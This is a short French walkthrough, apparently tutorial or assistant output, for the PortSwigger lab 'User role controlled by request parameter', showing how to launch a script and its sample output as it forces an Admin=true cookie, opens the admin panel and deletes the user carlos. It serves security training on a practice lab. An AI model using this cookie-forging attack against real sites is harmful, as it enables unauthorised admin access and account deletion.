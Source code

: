 Voici un **exemple d’exploitation** du script présenté pour le lab PortSwigger  
**User role controlled by request parameter** où l’accès admin dépend du cookie `Admin=true` :

---

## **1. Lancement du script**

Supposons que l’URL du lab soit :

```
https://acb11f1e1f3e4b2ac0b1c2d3e4f5g6h7.web-security-academy.net
```

Lancez le script :

```bash
chmod +x cookie_admin_true.sh
./cookie_admin_true.sh https://acb11f1e1f3e4b2ac0b1c2d3e4f5g6h7.web-security-academy.net
```

---

## **2. Déroulement étape par étape**

### **PHASE DE CONNEXION**
```
=== PHASE DE CONNEXION ===
[*] Connexion à l'utilisateur wiener...
[+] Cookie de session récupéré : session=3z4h5k6l7m8n9p0q1r2s3t4u5v6w7x8y
[*] On force le cookie Admin=true pour la suite.
```

### **PHASE D'ATTAQUE**
```
=== PHASE D'ATTAQUE ===
[*] Accès au panneau admin avec Admin=true...
[+] Lien de suppression trouvé : /admin/delete?username=carlos
[*] Suppression de carlos...
```

### **PHASE DE CONTRÔLE**
```
=== PHASE DE CONTRÔLE ===
[+] Succès : le lab semble résolu !
```

---
